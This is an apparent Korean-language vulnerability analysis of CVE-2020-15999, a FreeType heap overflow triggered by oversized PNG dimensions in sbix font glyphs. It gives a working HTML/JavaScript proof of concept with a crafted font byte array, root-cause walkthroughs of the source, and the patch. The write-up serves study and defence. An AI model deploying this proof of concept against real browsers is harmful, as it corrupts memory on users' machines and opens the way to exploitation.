

# CVE-2020-15999

> FreeType
- Original Report : [Link](https://bugs.chromium.org/p/chromium/issues/detail?id=1139963&q=cve-2020-15999&can=1)

- asan 로그
  
    [asanlog.txt](./CVE-2020-15999_data/asanlog.txt)

## POC

```html
<body>
<script>
font_face = new FontFace('fontname', new Uint8Array([0,1,0,0,0,11,0,144,0,3,0,
    32,79,83,47,50,0,0,0,0,0,0,0,188,0,0,0,96,99,109,97,112,0,0,0,0,0,0,1,28,0,
    0,0,44,103,108,121,102,0,0,0,0,0,0,1,72,0,0,0,2,104,101,97,100,0,0,0,0,0,0,
    1,76,0,0,0,54,104,104,101,97,0,0,0,0,0,0,1,132,0,0,0,36,104,109,116,120,0,0,
    0,0,0,0,1,168,0,0,0,12,108,111,99,97,0,0,0,0,0,0,1,180,0,0,0,8,109,97,120,
    112,0,0,0,0,0,0,1,188,0,0,0,32,110,97,109,101,0,0,0,0,0,0,1,220,0,0,0,6,112,
    111,115,116,0,0,0,0,0,0,1,228,0,0,0,40,115,98,105,120,0,0,0,0,0,0,2,12,0,0,
    1,157,0,4,3,31,1,144,0,5,0,0,2,188,2,138,0,0,0,140,2,188,2,138,0,0,1,221,0,
    50,0,250,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,32,32,32,
    32,0,64,0,65,0,67,2,238,255,6,0,0,3,32,0,18,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,
    32,0,8,0,0,0,1,0,3,0,1,0,0,0,12,0,4,0,32,0,0,0,4,0,4,0,1,0,0,0,67,255,255,0,
    0,0,65,255,255,255,191,0,1,0,0,0,0,0,0,0,0,0,1,0,0,0,1,0,0,0,0,0,0,95,15,60,
    245,0,43,3,32,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,3,32,3,32,0,0,0,8,0,2,
    0,0,0,0,0,0,0,1,0,0,3,32,255,6,0,0,3,32,255,255,0,1,3,31,0,1,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,3,3,32,0,90,3,32,0,90,3,32,0,90,0,0,0,0,0,0,0,0,0,1,0,0,0,3,
    0,8,0,2,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,6,0,0,0,2,0,0,
    0,0,0,0,255,181,0,50,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,3,0,0,0,0,0,
    0,0,1,0,1,0,0,0,1,0,0,0,12,0,150,0,72,0,0,0,20,0,0,0,20,0,0,0,208,0,0,1,145,
    0,0,0,0,112,110,103,32,137,80,78,71,13,10,26,10,0,0,0,13,73,72,68,82,0,0,0,
    3,0,1,0,163,8,6,0,0,1,244,153,148,89,0,0,0,121,73,68,65,84,120,1,1,110,0,
    145,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,
    0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,
    255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,
    255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,
    255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,
    65,255,92,133,71,85,172,91,212,33,0,0,0,0,73,69,78,68,174,66,96,130,241,139,
    0,0,0,0,112,110,103,32,137,80,78,71,13,10,26,10,0,0,0,13,73,72,68,82,0,0,0,
    3,0,1,0,163,8,6,0,0,1,244,153,148,89,0,0,0,126,73,68,65,84,120,1,1,115,0,
    140,255,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,115,0,1,194,215,216,247,0,0,0,0,73,69,78,68,174,66,96,130,184,
    140,0,0,0]));
font_face.load().then(() => {
  document.fonts.add(font_face);
  document.body.style.fontFamily = 'fontname';
  document.body.textContent = 'B';
});
</script> 
</body>
```

## 요약



- freetype에서 sbix 태그를 통해 png 이미지를 사용하게 되면 libpng를 통해 읽어옵니다.
  
    이때 freetype에서 미리 생성해두는 bitmap 데이터를 저장해둘 heap chunk의 크기를 계산한 후 해당 크기로 heap chunk를 할당, 해당 chunk에 비트맵 데이터를 저장하게 됩니다. 
    
    실제 PNG 파일의 width 값(4바이트)과 height 값(4바이트)을 Uns Short 형(2바이트)으로 형변환 하고 이 형변환된 값으로 heap chunk의 크기를 계산하게 되면서 실제 비트맵 데이터의 크기는 생성된 heap chunk의 크기보다 더 클 수 있게 됩니다.
    
    결과적으로 생성된 chunk의 크기보다 더 큰 값을 읽어오게 되면서 취약점이 발생하게 됩니다.
    

## 소스코드 분석

- 적절하지 못한 자료형으로 캐스팅 된 값 저장
  
    ```c
    FT_LOCAL_DEF( FT_Error )
    Load_SBit_Png( FT_GlyphSlot     slot,
                     FT_Int           x_offset,
                     FT_Int           y_offset,
                     FT_Int           pix_bits,
                     TT_SBit_Metrics  metrics,
                     FT_Memory        memory,
                     FT_Byte*         data,
                     FT_UInt          png_len,
                     FT_Bool          populate_map_and_metrics,
                     FT_Bool          metrics_only )
    {
    		...
    		png_read_info( png, info ); // [A] : png 헤더 정보 저장
        png_get_IHDR( png, info,
                      &imgWidth, &imgHeight,
                      &bitdepth, &color_type, &interlace,
                      NULL, NULL );
    
        if ( error                                    ||
             ( !populate_map_and_metrics              &&
               ( (FT_Int)imgWidth  != metrics->width  ||
                 (FT_Int)imgHeight != metrics->height ) ) )
          goto DestroyExit;
    
        if ( populate_map_and_metrics ) 
        {
          **metrics->width  = (FT_UShort)imgWidth;  // [B] // 32 bit -> 16 bit
          metrics->height = (FT_UShort)imgHeight; // 32 bit -> 16 bit**
    
          **map->width      = metrics->width;**
          **map->rows       = metrics->height;**
          map->pixel_mode = FT_PIXEL_MODE_BGRA;
          **map->pitch      = (int)( map->width * 4 );**
          map->num_grays  = 256;
    
          /* reject too large bitmaps similarly to the rasterizer */
          if ( map->rows > 0x7FFF || map->width > 0x7FFF )
          {
            error = FT_THROW( Array_Too_Large );
            goto DestroyExit;
          }
        }
    	 ...
    }
    ```
    
    - [A] 에서 png 헤더 정보를 저장한 후 [B]에서 가져온 정보들을 저장합니다.
      
        - [png_ptr, info_ptr 값 저장과정](png_ptr,info_ptr값_저장_과정.md)
        
        **[루트 커즈] 이때, `imgWidth`와 `imgHeight`는 unsigned short(16비트)로 형 변환 되어 저장됩니다.** 
        
        - `png_structp` 구조체
          
            ```c
            // third_party/libpng/pngstruct.h
            struct png_struct_def
            {
            	 ...
               png_uint_32 width;         /* width of image in pixels */
               png_uint_32 height;        /* height of image in pixels */
               png_uint_32 num_rows;      /* number of rows in current pass */
               png_uint_32 usr_width;     /* width of row at start of write */
               size_t rowbytes;           /* size of row in bytes */
               png_uint_32 iwidth;        /* width of current interlaced row in pixels */
               png_uint_32 row_number;    /* current row in interlace pass */
               png_uint_32 chunk_name;    /* PNG_CHUNK() id of current chunk */
               png_bytep prev_row;        /* buffer to save previous (unfiltered) row.
                                           * While reading this is a pointer into
                                           * big_prev_row; while writing it is separately
                                           * allocated if needed.
                                           */
               png_bytep row_buf;         /* buffer to save current (unfiltered) row.
                                           * While reading, this is a pointer into
                                           * big_row_buf; while writing it is separately
                                           * allocated.
                                           */
            	 ...
            }
            ```
    
- png bitmap data chunk 할당
  
    ```c
    FT_LOCAL_DEF( FT_Error )
    Load_SBit_Png( FT_GlyphSlot     slot,
                     FT_Int           x_offset,
                     FT_Int           y_offset,
                     FT_Int           pix_bits,
                     TT_SBit_Metrics  metrics,
                     FT_Memory        memory,
                     FT_Byte*         data,
                     FT_UInt          png_len,
                     FT_Bool          populate_map_and_metrics,
                     FT_Bool          metrics_only )
    {
    	 ...
    	 if ( populate_map_and_metrics )
        {
          /* this doesn't overflow: 0x7FFF * 0x7FFF * 4 < 2^32 */
          FT_ULong  size = **map->rows** * (FT_ULong)map->pitch; // [A]
    
          error = ft_glyphslot_alloc_bitmap( slot, size );
          if ( error )
            goto DestroyExit;
        }
    	  ...
    }
    ```
    
    - [A]에서 `size` 값을 정하고  `ft_glyphslot_alloc_bitmap` 으로 `slot->bitmap.buffer`에 `bitmap chunk`를 할당합니다.
      - [bitmap chunk를 할당하는 과정](./bitmap_chunk에_할당하는_과정.md)
    - **[루트 커즈]**
    
      **여기서 size를 정할 때 사용되는 `map->rows`의 값은 16비트로 저장된 `imgheight`값입니다. 
      실제 `imgheight` 값은 4바이트이고 실제로 한 줄(row) 단위로 bitmap 데이터를 읽어 올 때 사용하는 height 값 또한 4바이트를 사용하게 됩니다. 
      때문에 만약 `imgheight`의 값이 2바이트 이상이라면 해당 부분에서 할당되는 `png의 bitmap data를 담을 chunk`의 크기는 정상적인 경우보다 더 작게 할당이 되게 됩니다.
      이는 결과적으로 실제로 bitmap data를 읽어올 때 Heap Overflow를 발생시키게 됩니다.**
    
- Heap BOF! 코드 흐름
  
    ```c
    FT_LOCAL_DEF( FT_Error )
    Load_SBit_Png( FT_GlyphSlot     slot,
                     FT_Int           x_offset,
                     FT_Int           y_offset,
                     FT_Int           pix_bits,
                     TT_SBit_Metrics  metrics,
                     FT_Memory        memory,
                     FT_Byte*         data,
                     FT_UInt          png_len,
                     FT_Bool          populate_map_and_metrics,
                     FT_Bool          metrics_only )
    {
      FT_Bitmap    *map   = &slot->bitmap;
    	...
    	png_byte*  *rows = NULL; /* pacify compiler */
      // png_byte는 unsigned char입니다. pngconf.h에 정의되어 있습니다.
      ...
      for ( i = 0; i < **(FT_Int)imgHeight**; i++ ) // [A] **여기서 사용하는 imgHeight 값은 32비트입니다. 즉, 위에서 생성된 size의 값을 생성할때 사용한 map->rows와 자료형이 다릅니다.**
          rows[i] = map->buffer + ( y_offset + i ) * map->pitch + x_offset * 4;
      png_read_image( png, rows ); // [B]
      ...
    }
    ```
    
    - **[A]** : 해당 부분에서 사용하는 `imgHeight`의 값은 32비트의 원본 height값입니다. 즉, `imgheight`의 값이 2바이트 이상의 값이라면 `bitmap chunk`를 생성할 때 사용한 size의 값을 정할 때보다 더 큰 값이 있게 되므로 더 많이 루프를 돌며 값을 읽어오게 되고 이 과정에서 Heap Overflow가 발생하게 됩니다.
    - [B] : `png_read_image`를 호출합니다.
        - [libpng 내에서 Heap Overflow가 발생하는 위치](./libpng_내에서_Heap_Overflow가_발생하는_위치.md)

## 패치 된 코드

- 수전 전

```c
// pngshim.c
FT_LOCAL_DEF( FT_Error )
Load_SBit_Png( FT_GlyphSlot     slot,
                 FT_Int           x_offset,
                 FT_Int           y_offset,
                 FT_Int           pix_bits,
                 TT_SBit_Metrics  metrics,
                 FT_Memory        memory,
                 FT_Byte*         data,
                 FT_UInt          png_len,
                 FT_Bool          populate_map_and_metrics,
                 FT_Bool          metrics_only )
{
	...
  if ( populate_map_and_metrics )
     {
       metrics->width  = (FT_UShort)imgWidth;
       metrics->height = (FT_UShort)imgHeight;

       map->pixel_mode = FT_PIXEL_MODE_BGRA;
       map->pitch      = (int)( map->width * 4 );
       map->num_grays  = 256;

       **/* reject too large bitmaps similarly to the rasterizer */
       if ( map->rows > 0x7FFF || map->width > 0x7FFF )
       {
         error = FT_THROW( Array_Too_Large );
         goto DestroyExit;
       }**
     }
	...
}
```

- 수정 후

```c
// pngshim.c
FT_LOCAL_DEF( FT_Error )
Load_SBit_Png( FT_GlyphSlot     slot,
                 FT_Int           x_offset,
                 FT_Int           y_offset,
                 FT_Int           pix_bits,
                 TT_SBit_Metrics  metrics,
                 FT_Memory        memory,
                 FT_Byte*         data,
                 FT_UInt          png_len,
                 FT_Bool          populate_map_and_metrics,
                 FT_Bool          metrics_only )
{
	...
  if ( populate_map_and_metrics )
     {
       **/* reject too large bitmaps similarly to the rasterizer */
       if ( imgWidth > 0x7FFF || imgHeight > 0x7FFF )
       {
         error = FT_THROW( Array_Too_Large );
         goto DestroyExit;
       }**

       metrics->width  = (FT_UShort)imgWidth;
       metrics->height = (FT_UShort)imgHeight;
	     ...
    }
	...
}
```

- `imgWidth`와 `imgHeight`의 값을 metrics에 저장하기 전에 값을 검증하도록 수정되었습니다.